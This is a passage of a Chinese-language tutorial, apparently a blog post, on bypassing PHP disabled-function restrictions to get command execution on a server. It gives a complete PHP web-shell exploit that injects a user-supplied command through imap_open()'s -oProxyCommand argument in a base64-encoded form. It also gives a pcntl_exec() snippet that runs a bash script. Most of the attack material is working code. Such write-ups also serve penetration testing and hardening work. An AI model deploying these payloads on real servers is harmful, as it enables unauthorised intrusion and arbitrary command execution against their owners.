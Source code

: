 
选择可上传目录路径,上传exp

![](https://gitee.com/fuli009/images/raw/master/public/20210820102324.png)

  

包含文件执行

![](https://gitee.com/fuli009/images/raw/master/public/20210820102325.png)

  

## 利用imap_open()绕过

利用条件需要安装iamp扩展,命令行输入:`apt-get install php-
imap`在php.ini中开启imap.enable_insecure_rsh选项为On；重启服务。

![](https://gitee.com/fuli009/images/raw/master/public/20210820102326.png)

  

基本原理为:

    
    
    PHP 的imap_open函数中的漏洞可能允许经过身份验证的远程攻击者在目标系统上执行任意命令。该漏洞的存在是因为受影响的软件的imap_open函数在将邮箱名称传递给rsh或ssh命令之前不正确地过滤邮箱名称。如果启用了rsh和ssh功能并且rsh命令是ssh命令的符号链接，则攻击者可以通过向目标系统发送包含-oProxyCommand参数的恶意IMAP服务器名称来利用此漏洞。成功的攻击可能允许攻击者绕过其他禁用的exec 受影响软件中的功能，攻击者可利用这些功能在目标系统上执行任意shell命令。  
    

EXP:

    
    
    <?php   
    error_reporting(0);   
    if (!function_exists('imap_open')) {   
    die("no imap_open function!");   
    }   
    $server = "x -oProxyCommand=echot" . base64_encode($_GET['cmd'] .  
    ">/tmp/cmd_result") . "|base64t-d|sh}";   
    //$server = 'x -oProxyCommand=echo$IFS$()' . base64_encode($_GET['cmd'] .  
    ">/tmp/cmd_result") . '|base64$IFS$()-d|sh}';   
    imap_open('{' . $server . ':143/imap}INBOX', '', ''); // or  
    var_dump("nnError: ".imap_last_error());   
    sleep(5);   
    echo file_get_contents("/tmp/cmd_result");   
    ?>  
    

## 利用Pcntl组件

如果目标机器安装并启用了php组件Pcntl,就可以使用pcntl_exec()这个pcntl插件专有的命令执行函数来执行系统命令,也算是过黑名单的一钟,比较简单。

exp为:

    
    
    #pcntl_exec().php  
    <?php pcntl_exec("/bin/bash", array("/tmp/b4dboy.sh"));?>  
    #/tmp/b4dboy.sh  
    #!/bin/bash  
    ls -l /  
    